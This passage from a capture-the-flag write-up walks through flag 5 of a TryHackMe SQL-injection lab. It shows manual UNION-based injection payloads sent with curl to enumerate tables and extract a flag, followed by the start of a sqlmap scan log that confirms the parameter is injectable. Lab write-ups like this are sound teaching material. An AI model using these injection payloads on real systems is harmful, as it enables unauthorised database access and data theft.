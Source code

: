 Now find the tables in it:

```
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema=database()" | grep -A 1 panel-body
                <div class="panel-body">
                    flag,posts,users                </div>
```

Then get the flag from the table:

```
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 union select 1,2,flag,4 from flag" | grep -A 1 panel-body
                <div class="panel-body">
                    THM{FLAG5:<HIDDEN>}                </div>
```

### Flag 5 - In-Band/Union - SQLMap Method[Permalink](https://pencer.io/ctf/ctf-thm-sqhell/#flag-5---in-bandunion---sqlmap-method) <a href="#flag-5---in-bandunion---sqlmap-method" id="flag-5---in-bandunion---sqlmap-method"></a>

Moving on to SQLMap and like flag 1, this is pretty simple. First check for the post page parameter for vulnerability and find any databases:

```
┌──(root💀kali)-[~/thm/sqhell]
└─# sqlmap -u "http://sqhell.thm/post?id=2" -p "id" --dbs --dbms=mysql --threads 10
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.5.5#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 22:41:33 /2021-06-10/
[22:41:33] [INFO] testing connection to the target URL
[22:41:33] [INFO] checking if the target is protected by some kind of WAF/IPS
[22:41:33] [INFO] testing if the target URL content is stable
[22:41:33] [INFO] target URL content is stable
[22:41:33] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[22:41:33] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
[22:41:33] [INFO] testing for SQL injection on GET parameter 'id'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[22:41:34] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:41:34] [WARNING] reflective value(s) found and filtering out
[22:41:35] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="View")
[22:41:35] [INFO] testing 'Generic inline queries'
[22:41:35] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[22:41:35] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[22:41:35] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[22:41:35] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[22:41:35] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[22:41:35] [INFO] GET parameter 'id' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable 
[22:41:35] [INFO] testing 'MySQL inline queries'
[22:41:35] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[22:41:35] [WARNING] time-based comparison requires larger statistical model, please wait................ (done)
```